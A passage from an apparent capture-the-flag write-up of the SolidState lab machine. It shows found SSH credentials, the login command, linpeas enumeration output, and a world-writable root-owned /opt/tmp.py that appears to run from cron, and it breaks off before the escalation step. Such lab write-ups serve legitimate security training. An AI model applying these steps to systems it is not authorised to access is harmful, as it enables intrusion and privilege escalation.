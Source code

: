 Now we have mindy's SSH credentials.
```
username: mindy
pass: P@55W0rd1!2@
```

# Low Priv Shell

Connecting to SSH with mindy's credentials
```
root@kali# ssh mindy@10.10.10.51 -t bash
```

Using linpeas.sh, there are some interesting writable files returned. 
```
[+] Interesting writable files owned by me or writable by everyone (not in Home)
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
/dev/mqueue
/dev/mqueue/linpeas.txt
/dev/shm
/home/mindy
/opt/tmp.py
/run/lock
/run/user/1001
/run/user/1001/gnupg
/run/user/1001/systemd
/run/user/1001/systemd/transient
/tmp
/tmp/.font-unix
/tmp/.ICE-unix
/tmp/.Test-unix
/tmp/.X11-unix
/tmp/.XIM-unix
/var/tmp
```

`/opt/tmp.py` sparked my interest, so I'll look at that first.

Checking who owns `tmp.py`
```
${debian_chroot:+($debian_chroot)}mindy@solidstate:/$ ls -l /opt/
total 8
drwxr-xr-x 11 root root 4096 Aug 22  2017 james-2.3.2
-rwxrwxrwx  1 root root  105 Aug 22  2017 tmp.py
```

Inspecting `/opt/tmp.py` contents using `vi`
```
#!/usr/bin/env python
import os
import sys
try:
	
	os.system('touch /tmp/rrrr')
except:
	sys.exit()
```
# Escalating Privileges
Looking at /tmp/ I saw there was a file created named `rrrr` which is owned by root, which makes me believe `/opt/tmp.py` is being ran by a hidden cronjob.
